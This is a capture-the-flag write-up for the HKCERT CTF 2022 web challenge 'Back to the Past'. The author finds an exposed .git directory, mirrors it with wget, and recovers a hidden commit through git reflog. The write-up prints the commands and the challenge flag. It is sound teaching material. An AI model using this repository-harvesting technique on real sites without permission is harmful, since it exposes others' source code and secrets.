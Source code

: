 # Back to the Past

## Overview

- Overall difficulty for me (From 1-10 stars): ★★★★☆☆☆☆☆☆

- Challenge difficulty: ★☆☆☆☆

## Background

Web: [http://chal.hkcert22.pwnable.hk:28222](http://chal.hkcert22.pwnable.hk:28222)

Solution: [https://hackmd.io/@blackb6a/hkcert-ctf-2022-ii-en-6a196795](https://hackmd.io/@blackb6a/hkcert-ctf-2022-ii-en-6a196795)

![](https://github.com/siunam321/CTF-Writeups/blob/main/HKCERT-CTF-2022/images/Pasted%20image%2020221111215817.png)

## Find the flag

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HKCERT-CTF-2022/images/Pasted%20image%2020221111215846.png)

**View-source:**
```html
<html>
<head>
    <title>Welcome</title>
</head>

<body style="background: black; color: white;">
    <h1 style="text-align:center;">Welcome to my home page!</h1>

    <p style="text-align:center;"><a href="https://www.youtube.com/watch?v=o1UcRXTXmN4><img src="img/door.png" height="200" class="center"
[...]
```

**Let's explore this web page!**

When I click the door, it brings me to a YouTube video, which is not helpful.

**However, when I go to `/img` directory, I see a picture file:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HKCERT-CTF-2022/images/Pasted%20image%2020221111220053.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/HKCERT-CTF-2022/images/Pasted%20image%2020221111220057.png)

403 Forbidden...

Since the challenge's name is `Back to the Past`, this got me thinking: **Is this website being pushed via `git`?**

**If so, it might have a directory call `.git`**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HKCERT-CTF-2022/images/Pasted%20image%2020221111220207.png)

**Boom! Let's `wget` all the files!**
```
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/Back-to-the-Past]
└─# mkdir .git;cd .git            
                                                                                                           
┌──(root🌸siunam)-[~/…/HKCERT-CTF-2022/Web/Back-to-the-Past/.git]
└─# wget -r http://chal.hkcert22.pwnable.hk:28222/.git/

┌──(root🌸siunam)-[~/…/Web/Back-to-the-Past/.git/chal.hkcert22.pwnable.hk:28222]
└─# ls -lah            
total 20K
drwxr-xr-x 4 root root 4.0K Nov 11 22:03 .
drwxr-xr-x 3 root root 4.0K Nov 11 22:03 ..
drwxr-xr-x 8 root root 4.0K Nov 11 22:03 .git
drwxr-xr-x 2 root root 4.0K Nov 11 22:03 img
-rw-r--r-- 1 root root 1.8K Oct 25 10:34 index.html
```

**Since it's a `.git` directory, we can view it's logs and commits!**
```
┌──(root🌸siunam)-[~/…/Web/Back-to-the-Past/.git/chal.hkcert22.pwnable.hk:28222]
└─# git log
commit 77fe6ae33755cbac75cf2bf00014a9e4b2f08903 (HEAD -> master)
Author: Holland Wan <noreply@noreply.com>
Date:   Fri Oct 21 22:48:35 2022 +0800

    Final webpage

commit a9c248a136bb24592cfe1dd14805dde9da321c4d
Author: Holland Wan <noreply@noreply.com>
Date:   Fri Oct 21 22:38:59 2022 +0800

    Initial

┌──(root🌸siunam)-[~/…/Web/Back-to-the-Past/.git/chal.hkcert22.pwnable.hk:28222]
└─# git reflog 
77fe6ae (HEAD -> master) HEAD@{0}: commit: Final webpage
a9c248a HEAD@{1}: reset: moving to a9c248a136bb24592cfe1dd14805dde9da321c4d
4ba5380 HEAD@{2}: commit: What is this?
a9c248a HEAD@{3}: commit (initial): Initial
```

**The `What is this?` commit looks sussy!**

**Let's `checkout` that commit!**
```
┌──(root🌸siunam)-[~/…/Web/Back-to-the-Past/.git/chal.hkcert22.pwnable.hk:28222]
└─# git checkout 4ba5380 -f
```

```
┌──(root🌸siunam)-[~/…/Web/Back-to-the-Past/.git/chal.hkcert22.pwnable.hk:28222]
└─# ls -lah
total 16K
drwxr-xr-x 3 root root 4.0K Nov 11 22:07 .
drwxr-xr-x 3 root root 4.0K Nov 11 22:03 ..
-rw-r--r-- 1 root root   52 Nov 11 22:07 flag.txt
drwxr-xr-x 8 root root 4.0K Nov 11 22:07 .git
                                                                                                           
┌──(root🌸siunam)-[~/…/Web/Back-to-the-Past/.git/chal.hkcert22.pwnable.hk:28222]
└─# cat flag.txt                     
hkcert22{n0stalgic_w3bs1t3_br1ings_m3_b4ck_to_2000}
```

We got the flag!

# Conclusion

What we've learned:

1. Insecurely Storing Files
